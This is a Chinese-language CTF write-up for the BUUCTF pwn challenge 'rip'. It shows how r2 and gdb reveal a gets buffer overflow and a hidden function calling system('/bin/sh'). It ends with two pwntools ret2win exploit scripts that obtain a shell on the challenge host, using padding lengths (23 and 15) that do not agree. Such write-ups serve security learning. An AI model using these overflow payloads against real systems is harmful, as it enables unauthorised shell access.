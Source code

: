 # rip

### Solve

1. 先用r2看一下main裡面有什麼東西，可以看到get這個function接著用於是用BOF去測測看，可以得到offset為23

    <img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled.png" width=350>
    
    ※ offset：
    gdb$ pattc 100
    gdb$ crashoff

2. 再用r2的afl看看有哪些function，結果看到可疑的sym.fun，於是點進去看看

    <img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled%201.png" width=350>

3. 可以看到裡面直接call了system("/bin/sh")，正是我們的目標，於是我們用disas fun找到fun function的address

    <img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled%202.png" width=250>

### exp 1

<img src="https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled%203.png" width=400>

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*23
fun = 0x401187 # 0x40118a both correct
payload += p64(fun)
r.sendline(payload)

r.interactive()
```

### exp 2

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*15
fun = 0x401186
payload += p64(fun)
r.sendline(payload)

r.interactive()
```
